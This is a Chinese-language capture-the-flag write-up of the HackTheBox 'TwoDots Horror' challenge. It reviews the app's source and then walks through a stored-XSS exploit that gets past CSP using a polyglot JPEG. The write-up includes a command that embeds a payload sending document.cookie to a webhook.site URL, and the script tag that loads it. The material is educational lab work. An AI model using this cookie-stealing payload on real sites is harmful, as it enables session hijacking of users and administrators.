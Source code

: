 ```yaml
---
title: TwoDots Horror
categories:
  - CTF
tags:
  - XSS，
  - CSP绕过
---
```

## 0x00 前言
[TwoDots Horror](https://app.hackthebox.com/challenges/twodots-horror)是一道有关XSS，和CSP绕过的题。黑盒的话也能做，只是要全靠猜。白盒的话，做的更快。这道题非常有趣，在[Bookworm](https://app.hackthebox.com/machines/Bookworm)这台机器上的User部分也用到了大概这种思路。

---
## 0x01 黑盒思路
![1.png](/assets/img/2023-12-1-TwoDots-Horror/1.png)
映入眼帘的是一个登录与注册页面，注册一个账号进去后发现有两个功能。
1. 输入一段话，必须有两个`.`，而且需要管理员审核，就说明管理员会看到我们输入的东西。
2. 可以上传一个头像。
![2.png](/assets/img/2023-12-1-TwoDots-Horror/2.png)
![3.png](/assets/img/2023-12-1-TwoDots-Horror/3.png)
思路：输入js代码盗取管理员cookie，但是输入js代码有限制，只能通过加载图片，来执行任意js代码。

---
## 0x02 白盒思路
```js
router.post('/api/submit', AuthMiddleware, async (req, res) => {
    return db.getUser(req.data.username)
        .then(user => {
            if (user === undefined) return res.redirect('/');
            const { content } = req.body;
            if(content){
                twoDots = content.match(/\./g);
                if(twoDots == null || twoDots.length != 2){
                    return res.status(403).send(response('Your story must contain two sentences! We call it TwoDots Horror!'));
                }
                return db.addPost(user.username, content)
                    .then(() => {
                        bot.purgeData(db);
                        res.send(response('Your submission is awaiting approval by Admin!'));
                    });
            }
            return res.status(403).send(response('Please write your story first!'));
        })
        .catch(() => res.status(500).send(response('Something went wrong!')));
});
```
这段代码有限制了输入的内容必须有且只有两个`.`，提交之后会储存到数据库，而且没有转义任何东西，之后跟进到`bot.js`。
```js
const cookies = [{
    'name': 'flag',
    'value': 'HTB{f4k3_fl4g_f0r_t3st1ng}'
}];
async function purgeData(db){
    const browser = await puppeteer.launch(browser_options);
    const page = await browser.newPage();

    await page.goto('http://127.0.0.1:1337/');
    await page.setCookie(...cookies);

    await page.goto('http://127.0.0.1:1337/review', {
        waitUntil: 'networkidle2'
    });

    await browser.close();
    await db.migrate();

};
```
flag藏在cookie中，这段代码的意思是机器人会访问网站，然后设置cookie为flag，然后跟进到/review路由。
```js
router.get('/review', async (req, res, next) => {
    if(req.ip != '127.0.0.1') return res.redirect('/');

    return db.getPosts(0)
        .then(feed => {    
            res.render('review.html', { feed });
        })
        .catch(() => res.status(500).send(response('Something went wrong!')));
});
```
限制了只有本地能访问，然后从数据库中提取数据，放到review.html模板中。这个过程也是没有做任何转义。
所以思路和黑盒一样。只是白盒做起来更加清晰。

---
## 0x03 利用
### 1. 选择接收cookie的方式
1. 使用https://webhook.site/
2. 使用vps开启一个http服务器，例如python开启的http服务器。

---
### 2. 生成包含js代码的图片。
在UploadHelper.js这个文件里的代码中做了对图片的限制
```js
module.exports = {
    async uploadImage(file) {
        return new Promise(async (resolve, reject) => {
            if(file == undefined) return reject(new Error("Please select a file to upload!"));
            try{
                if (!isJpg(file.data)) return reject(new Error("Please upload a valid JPEG image!"));
                const dimensions = sizeOf(file.data);
                if(!(dimensions.width >= 120 && dimensions.height >= 120)) {
                    return reject(new Error("Image size must be at least 120x120!"));
                }
                uploadPath = path.join(__dirname, '/../uploads', file.md5);
                file.mv(uploadPath, (err) => {
                    if (err) return reject(err);
                });
                return resolve(file.md5);
            }catch (e){
                console.log(e);
                reject(e);
            }
        });
    }
}
```
使用`isJpg()`函数对图片做了检测，还限制了图片的大小必须在120x120以内。
可以使用脚本生成一个带有js代码的图片。
地址：https://github.com/s-3ntinel/imgjs_polygloter
也可以参考文件的方法自己生成一个带有js代码的图片。
地址：https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs

我的话就采取捷径，使用脚本了，但是文章一定要看，知其然知其所以然。
```bash
python .\img_polygloter.py jpg --height 120 --width 120 --payload 'window.location.href="https://webhook.site/6d242a56-5fc5-4f99-bafe-5512a88bd38d/?c="+document.cookie;' --output xss.jpg
```
然后上传图片并访问，得知地址。
```bash
http://159.65.20.166:30850/api/avatar/mao
```
其实不带参数也能访问。

---
### 输入包含该脚本的js代码

```js
<script charset="ISO-8859-1" src="/api/avatar/mao"></script>..
```
1. `ISO-8859-1` 是一个字符集（Character Set）的名称，也被称为 Latin-1。它是国际标准化组织（ISO）定义的字符编码，其中包含了西欧语言的大多数字符。

---
### 接收flag
![4.png](/assets/img/2023-12-1-TwoDots-Horror/4.png)

---
## 参考
https://salucci.ch/2023/05/20/xss-with-a-jpg-jpeg-to-bypass-csp/

